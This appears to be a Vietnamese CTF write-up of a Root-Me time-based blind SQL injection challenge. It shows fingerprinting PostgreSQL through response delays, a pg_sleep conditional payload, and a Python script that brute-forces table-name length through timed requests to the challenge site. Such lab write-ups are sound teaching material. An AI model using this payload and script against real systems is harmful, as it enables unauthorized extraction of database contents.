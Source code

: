 ![image](https://hackmd.io/_uploads/HyMZPonST.png)

Vì bài này thuộc dạng SQL time delay nên ta cần tìm nơi có thể exploit bằng time delay

Form login thì chắc chắn ko được nên ở đây là có khả năng nhất 

![image](https://hackmd.io/_uploads/Hyfovs3Ba.png)

Rôi bây giờ cùng thử các lệnh khác nhau của nhiều hệ database để xem thử kết quả

![image](https://hackmd.io/_uploads/BJzkOi2ra.png)

Thử nghiệm giả thuyết

![image](https://hackmd.io/_uploads/HyC4ushST.png)


![image](https://hackmd.io/_uploads/SJ2StohS6.png)

Để ý ở góc phải cuối màn hình thì ta thấy chỉ có PostgreSQL là có thời gian response chậm nhất `~ 2 giây` , còn các database khác thì chỉ `~ 0,3 s`

Ta đã biết hệ thống dùng database gì rồi bây giờ bắt đầu exploit, payload như sau :- 

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END-- -`

Đầu tiên check Length của table name trước, viết code python check cho nhanh nhé :

```python=
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
def main():
    proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    URL = "http://challenge01.root-me.org/web-serveur/ch40/"
    for i in range(1, 30):
        payload = f"1;SELECT CASE WHEN ((SELECT LENGTH(table_name) FROM information_schema.tables limit 1)={i}) THEN pg_sleep(10) ELSE pg_sleep(0) END-- -"
        PARAMS = {"action": "member", "member":payload}
        http = requests.get(url=URL,params=PARAMS, verify=False, proxies=proxies)
        if (http.elapsed.total_seconds()) >= 2:
            sys.stdout.write('\r' + 'Length table_name is ' + str(i))
            sys.stdout.flush()
            break
        else:
            sys.stdout.write('\r' + str(i))
            sys.stdout.flush()

if __name__ == "__main__":
    main()
```
